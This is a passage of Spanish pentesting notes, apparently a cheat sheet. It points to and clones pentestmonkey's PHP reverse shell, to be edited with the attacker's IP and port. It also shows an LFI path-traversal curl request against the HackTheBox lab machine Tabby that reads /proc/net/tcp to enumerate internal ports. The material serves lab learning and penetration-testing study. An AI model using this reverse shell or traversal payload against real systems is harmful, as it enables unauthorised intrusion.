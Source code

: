 <h2 id="Reverse">Reverse Shell de PHP</h2>

¿Necesitas una **Reverse Shell** que sea hecha en PHP? Aquí tienes una:
* https://github.com/pentestmonkey/php-reverse-shell

* Así puedes clonarla:
```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
Clonando en 'php-reverse-shell'...
remote: Enumerating objects: 10, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 10 (delta 1), reused 1 (delta 1), pack-reused 7
Recibiendo objetos: 100% (10/10), 9.81 KiB | 1.23 MiB/s, listo.
Resolviendo deltas: 100% (2/2), listo.
```
* Recuerda que debes abrir el archivo y modificarlo para poner tu IP y un puerto que quieras.


<br>
<br>
<hr>
<div style="position: relative;">
 <h1 id="Web" style="text-align:center;">Tips para Pentesting Web</h1>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font>
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
<br>


<h2 id="CURL">Enumerando Puertos Internos con CURL</h2>

Digamos que tienes la forma de visualizar archivos internos de una máquina desde una aplicación web o página web, gracias a la inyección de comandos por LFI. Si puedes visualizar el archivo **tcp** del directorio **/proc/net**, puedes descubrir que puertos internos estan abiertos utilizando la herramienta **CURL**.

Para hacerlo, obtengamos una petición por el metodo GET con el parámetro **-X**. Como prueba, usaremos la **máquina Tabby**:

```
curl -s -X GET "http://megahosting.htb/news.php?file=../../../../../../../proc/net/tcp"
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
   0: 00000000:1F90 00000000:0000 0A 00000000:00000000 00:00000000 00000000   997        0 24968 1 0000000000000000 100 0 0 10 0                     
   1: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 22923 1 0000000000000000 100 0 0 10 0                     
   2: 3500007F:0035 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 21938 1 0000000000000000 100 0 0 10 0                     
   3: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 22903 1 0000000000000000 100 0 0 10 0                     
   4: C20A0A0A:0050 040E0A0A:B7D2 01 00000000:00000000 02:000AFC7F 00000000    33        0 32297 2 0000000000000000 166 4 30 10 21                   
   5: C20A0A0A:86BA 01010101:0035 02 00000001:00000000 01:000002E0 00000003   101        0 36768 2 0000000000000000 800 0 0 1 7
```
Vamos a usar solamente la columna del **local_address**, si la quieres seleccionar, presiona **ctrl + alt** y selecciona solo los resultados de esa columna (esto funciona en Kali, no se si funciona en otros SO) y reproduce el resultado con **echo**:
```
echo "00000000:1F90                                                               
00000000:0050        
3500007F:0035        
00000000:0016        
C20A0A0A:0050        
C20A0A0A:86BA"
```